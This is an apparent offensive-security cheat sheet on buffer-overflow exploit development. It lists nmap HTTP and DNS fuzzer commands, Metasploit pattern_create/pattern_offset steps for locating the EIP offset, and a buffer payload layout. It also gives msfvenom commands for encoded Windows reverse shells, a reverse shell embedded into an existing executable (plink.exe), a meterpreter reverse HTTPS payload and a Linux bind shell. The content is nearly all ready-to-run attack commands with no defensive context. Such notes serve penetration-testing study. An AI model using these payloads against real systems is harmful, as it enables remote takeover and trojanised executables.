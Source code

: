 # DEP and ASLR - Data Execution Prevention (DEP) and Address Space Layout Randomization (ASLR)

## NMap Fuzzer List
https://nmap.org/nsedoc/categories/fuzzer.html

## NMap HTTP Form Fuzzer
nmap --script http-form-fuzzer --script-args 'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}' -p 80 $ip

## Nmap DNS Fuzzer
nmap --script dns-fuzz --script-args timelimit=2h $ip -d


# Pattern Create and Locate

locate pattern_create
pattern_create.rb -l 2700

locate pattern_offset
pattern_offset.rb -q 39694438

## Verify exact location of EIP - [*] Exact match at offset 2606
buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90


**MSFVenom Payloads**

msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -o shell_reverse.exe
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe

## Create a PE reverse shell and embed it into an existing executable
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe

## Create a PE Reverse HTTPS shell
msfvenom -p windows/meterpreter/reverse_https LHOST=$ip LPORT=443 -f exe -o met_https_reverse.exe

## Linux Bind Shell on PORT 4444 ( connect with nc -v $ip 4444 )
msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai

